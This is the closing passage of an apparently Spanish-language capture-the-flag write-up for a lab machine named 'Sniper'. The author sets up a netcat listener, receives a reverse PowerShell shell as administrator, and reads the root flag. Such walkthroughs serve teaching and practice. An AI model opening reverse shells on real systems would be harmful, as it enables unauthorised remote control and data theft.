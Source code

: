 Y si nos ponemos en escucha con `netcat`
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.229.6] 49818
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
sniper\administrator
```

Podemos leer la flag de `root`
```shell
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
b7b8de1f25db0cb...
```

¡Y ya estaría!

Happy Hacking! 🚀
